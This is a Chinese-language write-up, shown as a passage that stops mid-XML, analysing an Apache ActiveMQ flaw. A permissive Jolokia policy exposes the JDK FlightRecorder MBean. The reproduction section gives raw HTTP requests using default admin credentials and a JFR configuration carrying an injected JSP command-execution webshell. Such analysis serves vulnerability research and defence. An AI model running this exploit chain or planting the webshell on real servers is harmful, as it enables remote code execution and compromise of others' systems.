# 一、漏洞分析

查看`assembly\src\release\webapps\api\WEB-INF\web.xml`  

```xml
    <servlet>
        <servlet-name>jolokia-agent</servlet-name>
        <servlet-class>org.jolokia.http.AgentServlet</servlet-class>
        <!-- Uncomment this if you want jolokia multicast discovery to be enabled         
        <init-param>
          <param-name>discoveryEnabled</param-name>
          <param-value>true</param-value>
        </init-param>      
        <init-param>
          <param-name>discoveryAgentUrl</param-name>
          <param-value>http://${host}:8161/api/jolokia</param-value>
        </init-param>
        <init-param>
          <param-name>agentDescription</param-name>
          <param-value>Apache ActiveMQ</param-value>
        </init-param>
        -->
        <init-param>
            <param-name>policyLocation</param-name>
            <param-value>${prop:jolokia.conf}</param-value>
        </init-param>
        <!-- turn off returning exceptions and stacktraces from jolokia -->
        <init-param>
          <param-name>allowErrorDetails</param-name>
          <param-value>false</param-value>
        </init-param>
        <load-on-startup>1</load-on-startup> 
    </servlet>
```

```xml
    <servlet-mapping>
        <servlet-name>jolokia-agent</servlet-name>
        <url-pattern>/jolokia/*</url-pattern>
    </servlet-mapping>
```

可见加入了jolokia-agent这个servlet。

查看jolokia的用户手册 https://jolokia.org/reference/html/manual/jolokia_protocol.html ：



jolokia提供了一种远程访问JVM的MBeans的方式。

存在list这个方法，其返回可用的MBeans。

访问/api/jolokia/list：（要加上origin头）

```
GET /api/jolokia/list HTTP/1.1
Host: 192.168.240.130:8161
Authorization: Basic YWRtaW46YWRtaW4=
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=pmgr5nmbcazq10lptyiipck8b
Connection: keep-alive
Origin:http://192.168.240.130

```



```
    "jdk.management.jfr": {
      "type=FlightRecorder": {
        "op": {
          "getRecordingOptions": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              }
            ],
            "ret": "javax.management.openmbean.TabularData",
            "desc": "getRecordingOptions"
          },
          "takeSnapshot": {
            "args": [],
            "ret": "long",
            "desc": "takeSnapshot"
          },
          "closeRecording": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              }
            ],
            "ret": "void",
            "desc": "closeRecording"
          },
          "newRecording": {
            "args": [],
            "ret": "long",
            "desc": "newRecording"
          },
          "openStream": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              },
              {
                "name": "p1",
                "type": "javax.management.openmbean.TabularData",
                "desc": "p1"
              }
            ],
            "ret": "long",
            "desc": "openStream"
          },
          "setRecordingSettings": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              },
              {
                "name": "p1",
                "type": "javax.management.openmbean.TabularData",
                "desc": "p1"
              }
            ],
            "ret": "void",
            "desc": "setRecordingSettings"
          },
          "cloneRecording": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              },
              {
                "name": "p1",
                "type": "boolean",
                "desc": "p1"
              }
            ],
            "ret": "long",
            "desc": "cloneRecording"
          },
          "setRecordingOptions": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              },
              {
                "name": "p1",
                "type": "javax.management.openmbean.TabularData",
                "desc": "p1"
              }
            ],
            "ret": "void",
            "desc": "setRecordingOptions"
          },
          "copyTo": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              },
              {
                "name": "p1",
                "type": "java.lang.String",
                "desc": "p1"
              }
            ],
            "ret": "void",
            "desc": "copyTo"
          },
          "startRecording": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              }
            ],
            "ret": "void",
            "desc": "startRecording"
          },
          "closeStream": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              }
            ],
            "ret": "void",
            "desc": "closeStream"
          },
          "getRecordingSettings": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              }
            ],
            "ret": "javax.management.openmbean.TabularData",
            "desc": "getRecordingSettings"
          },
          "setPredefinedConfiguration": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              },
              {
                "name": "p1",
                "type": "java.lang.String",
                "desc": "p1"
              }
            ],
            "ret": "void",
            "desc": "setPredefinedConfiguration"
          },
          "readStream": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              }
            ],
            "ret": "[B",
            "desc": "readStream"
          },
          "setConfiguration": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              },
              {
                "name": "p1",
                "type": "java.lang.String",
                "desc": "p1"
              }
            ],
            "ret": "void",
            "desc": "setConfiguration"
          },
          "stopRecording": {
            "args": [
              {
                "name": "p0",
                "type": "long",
                "desc": "p0"
              }
            ],
            "ret": "boolean",
            "desc": "stopRecording"
          }
        },
        "attr": {
          "EventTypes": {
            "rw": false,
            "type": "[Ljavax.management.openmbean.CompositeData;",
            "desc": "EventTypes"
          },
          "Recordings": {
            "rw": false,
            "type": "[Ljavax.management.openmbean.CompositeData;",
            "desc": "Recordings"
          },
          "Configurations": {
            "rw": false,
            "type": "[Ljavax.management.openmbean.CompositeData;",
            "desc": "Configurations"
          },
          "ObjectName": {
            "rw": false,
            "type": "javax.management.ObjectName",
            "desc": "ObjectName"
          }
        },
        "class": "jdk.management.jfr.FlightRecorderMXBeanImpl",
        "desc": "Information on the management interface of the MBean"
      }
    },
```

主要问题出在FlightRecorder这个Mbean，功能是记录内存，gc，调用栈等，漏洞用到的方法主要是以下几个


* newRecording
新建记录
* setConfiguration
更改配置
* startRecording
开始录制
* stopRecording
结束录制
* copyTo
导出录制文件

漏洞思路是通过setConfiguration修改配置，把**setting键值**改成jsp代码，记录的数据就会包含该jsp代码，录制完成后，通过copyTo导出到web目录即可

https://github.com/openjdk/jdk/blob/master/src/jdk.management.jfr/share/classes/jdk/management/jfr/FlightRecorderMXBeanImpl.java#L202

```java
    @Override
    public void setConfiguration(long recording, String contents) throws IllegalArgumentException {
        Objects.requireNonNull(contents, "contents");
        try {
            Configuration c = Configuration.create(new StringReader(contents));
            getExistingRecording(recording).setSettings(c.getSettings());
        } catch (IOException | ParseException e) {
            throw new IllegalArgumentException("Could not parse configuration", e);
        }
    }
```

之所以存在这个漏洞不是因为代码本身的原因，而是在assembly\src\release\conf\jolokia-access.xml中的配置过于宽泛,只禁用了`com.sun.management:type=DiagnosticCommand`和`com.sun.management:type=HotSpotDiagnostic`这两个MBean，同时没有禁用jolokia的exec方法，这样导致可以通过jolokia的exec方法远程访问jdk中的jdk.management.jfr#type=FlightRecorder这个MBean：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

  http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<restrict>

  <!-- Enforce that an Origin/Referer header is present to prevent CSRF -->
  <cors>
    <strict-checking/>
  </cors>

  <!-- deny calling operations or getting attributes from these mbeans -->
  <deny>
    <mbean>
      <name>com.sun.management:type=DiagnosticCommand</name>
      <attribute>*</attribute>
      <operation>*</operation>
    </mbean>
    <mbean>
      <name>com.sun.management:type=HotSpotDiagnostic</name>
      <attribute>*</attribute>
      <operation>*</operation>
    </mbean>
  </deny>

</restrict>
```

官方的修改；

https://github.com/apache/activemq/commit/6120169e5

# 二、漏洞复现



在 jdk.management.jfr.FlightRecorderMXBeanImpl#setConfiguration#setPredefinedConfiguration下断点，看一下默认配置是什么：




先创建一个新记录

```
GET /api/jolokia/exec/jdk.management.jfr:type=FlightRecorder/newRecording HTTP/1.1
Host: localhost:8161
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
sec-ch-ua: "Chromium";v="145", "Not:A-Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: close
Origin:http://127.0.0.1

```

```
GET /api/jolokia/exec/jdk.management.jfr:type=FlightRecorder/setPredefinedConfiguration/1/s HTTP/1.1
Host: localhost:8161
Cache-Control: max-age=0
Authorization: Basic YWRtaW46YWRtaW4=
sec-ch-ua: "Chromium";v="145", "Not:A-Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: close
Origin:http://127.0.0.1

```



得到默认配置修改为这样（插入了webshell）：



```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!--
     Recommended way to edit .jfc files is to use the configure command of
     the 'jfr' tool, i.e. jfr configure, or JDK Mission Control
     see Window -> Flight Recorder Template Manager
--><configuration description="Low overhead configuration safe for continuous use in production environments, typically less than 1 % overhead." label="Continuous" provider="Oracle" version="2.0">
        
    <event name="jdk.ResidentSetSize">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">1000 ms</setting>
            
    </event>
        
    <event name="jdk.ThreadAllocationStatistics">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">everyChunk<![CDATA[|||<%Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));out.println(org.apache.commons.io.IOUtils.toString(p.getInputStream(), "utf-8"));%>|||]]></setting>
            
    </event>
        
    <event name="jdk.ClassLoadingStatistics">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">1000 ms</setting>
            
    </event>
        
    <event name="jdk.ClassLoaderStatistics">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.JavaThreadStatistics">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">1000 ms</setting>
            
    </event>
        
    <event name="jdk.SymbolTableStatistics">
              
        <setting name="enabled">false</setting>
              
        <setting name="period">10 s</setting>
            
    </event>
        
    <event name="jdk.StringTableStatistics">
              
        <setting name="enabled">false</setting>
              
        <setting name="period">10 s</setting>
            
    </event>
        
    <event name="jdk.ThreadStart">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.ThreadEnd">
              
        <setting name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.ThreadSleep">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting control="locking-threshold" name="threshold">20 ms</setting>
            
    </event>
        
    <event name="jdk.ThreadPark">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting control="locking-threshold" name="threshold">20 ms</setting>
            
    </event>
        
    <event name="jdk.VirtualThreadStart">
              
        <setting name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.VirtualThreadEnd">
              
        <setting name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.VirtualThreadPinned">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">20 ms</setting>
            
    </event>
        
    <event name="jdk.VirtualThreadSubmitFailed">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.JavaMonitorEnter">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting control="locking-threshold" name="threshold">20 ms</setting>
            
    </event>
        
    <event name="jdk.JavaMonitorWait">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting control="locking-threshold" name="threshold">20 ms</setting>
            
    </event>
        
    <event name="jdk.JavaMonitorNotify">
              
        <setting name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.JavaMonitorInflate">
              
        <setting name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.JavaMonitorDeflate">
              
        <setting name="enabled">false</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.JavaMonitorStatistics">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.FinalFieldMutation">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.SyncOnValueBasedClass">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.ContinuationFreeze">
              
        <setting name="enabled">false</setting>
              
        <setting name="stackTrace">false</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ContinuationThaw">
              
        <setting name="enabled">false</setting>
              
        <setting name="stackTrace">false</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ContinuationFreezeFast">
              
        <setting name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.ContinuationFreezeSlow">
              
        <setting name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.ContinuationThawFast">
              
        <setting name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.ContinuationThawSlow">
              
        <setting name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.ReservedStackActivation">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.ClassLoad">
              
        <setting control="class-loading" name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ClassDefine">
              
        <setting control="class-loading" name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.RedefineClasses">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.RetransformClasses">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.ClassRedefinition">
              
        <setting control="class-loading" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.ClassUnload">
              
        <setting control="class-loading" name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.JVMInformation">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.InitialSystemProperty">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.ExecutionSample">
              
        <setting control="method-sampling-enabled" name="enabled">true</setting>
              
        <setting control="method-sampling-java-interval" name="period">20 ms</setting>
            
    </event>
        
    <event name="jdk.NativeMethodSample">
              
        <setting control="method-sampling-enabled" name="enabled">true</setting>
              
        <setting control="method-sampling-native-interval" name="period">20 ms</setting>
            
    </event>
        
    <event name="jdk.MethodTrace">
              
        <setting name="enabled">true</setting>
              
        <setting control="method-trace" name="filter"/>
              
        <setting name="threshold">0 ms</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.MethodTiming">
              
        <setting name="enabled">true</setting>
              
        <setting control="method-timing" name="filter"/>
              
        <setting name="period">endChunk</setting>
            
    </event>
        
    <event name="jdk.SafepointLatency">
              
        <setting name="enabled">false</setting>
              
        <setting name="stackTrace">true</setting>
              
        <setting name="threshold">0 ms</setting>
              
        <setting name="throttle">off</setting>
            
    </event>
        
    <event name="jdk.CPUTimeSample">
              
        <setting control="method-sampling-enabled" name="enabled">false</setting>
              
        <setting name="throttle">500/s</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.CPUTimeSamplesLost">
              
        <setting control="method-sampling-enabled" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.SafepointBegin">
              
        <setting name="enabled">true</setting>
              
        <setting name="threshold">10 ms</setting>
            
    </event>
        
    <event name="jdk.SafepointStateSynchronization">
              
        <setting name="enabled">false</setting>
              
        <setting name="threshold">10 ms</setting>
            
    </event>
        
    <event name="jdk.SafepointEnd">
              
        <setting name="enabled">false</setting>
              
        <setting name="threshold">10 ms</setting>
            
    </event>
        
    <event name="jdk.ExecuteVMOperation">
              
        <setting name="enabled">true</setting>
              
        <setting name="threshold">10 ms</setting>
            
    </event>
        
    <event name="jdk.Shutdown">
              
        <setting name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.ThreadDump">
              
        <setting control="thread-dump-enabled" name="enabled">true</setting>
              
        <setting control="thread-dump" name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.IntFlag">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.UnsignedIntFlag">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.LongFlag">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.UnsignedLongFlag">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.DoubleFlag">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.BooleanFlag">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.StringFlag">
              
        <setting name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.IntFlagChanged">
              
        <setting name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.UnsignedIntFlagChanged">
              
        <setting name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.LongFlagChanged">
              
        <setting name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.UnsignedLongFlagChanged">
              
        <setting name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.DoubleFlagChanged">
              
        <setting name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.BooleanFlagChanged">
              
        <setting name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.StringFlagChanged">
              
        <setting name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.ObjectCount">
              
        <setting control="gc-enabled-all" name="enabled">false</setting>
              
        <setting name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.GCConfiguration">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.GCHeapConfiguration">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.YoungGenerationConfiguration">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.GCTLABConfiguration">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.GCSurvivorConfiguration">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="period">beginChunk</setting>
            
    </event>
        
    <event name="jdk.ObjectCountAfterGC">
              
        <setting name="enabled">false</setting>
            
    </event>
        
    <event name="jdk.GCHeapMemoryUsage">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.GCHeapMemoryPoolUsage">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="period">everyChunk</setting>
            
    </event>
        
    <event name="jdk.GCHeapSummary">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.PSHeapSummary">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.G1HeapSummary">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.MetaspaceSummary">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.MetaspaceGCThreshold">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.MetaspaceAllocationFailure">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.MetaspaceOOM">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.MetaspaceChunkFreeListSummary">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
            
    </event>
        
    <event name="jdk.GarbageCollection">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.SystemGC">
              
        <setting name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
              
        <setting name="stackTrace">true</setting>
            
    </event>
        
    <event name="jdk.ParallelOldGarbageCollection">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.YoungGarbageCollection">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
    <event name="jdk.OldGarbageCollection">
              
        <setting control="gc-enabled-normal" name="enabled">true</setting>
              
        <setting name="threshold">0 ms</setting>
            
    </event>
        
